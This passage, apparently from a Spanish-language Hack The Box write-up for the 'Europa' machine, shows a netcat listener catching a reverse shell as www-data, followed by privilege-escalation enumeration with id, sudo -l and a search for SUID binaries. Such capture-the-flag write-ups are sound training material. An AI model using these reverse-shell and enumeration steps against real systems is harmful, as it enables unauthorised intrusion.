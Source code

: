 ![""](/assets/images/htb-europa/europa_rce1.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.22] 57950
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Ya tenemos acceso a la máquina como el usuario `www.data`, hacemos un [Tratamiento de la tty](/posts/tratamiento-tty) para trabajar más cómodos y vemos que podemos visualizar la flag (user.txt). Ahora nos queda escalar privilegios, por lo que enumeramos un poco el sistema.

```bash
www-data@europa:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@europa:/$ sudo -l
[sudo] password for www-data: 
www-data@europa:/$ cd /
www-data@europa:/$ find \-perm 4000 2>/dev/null
www-data@europa:/$
```
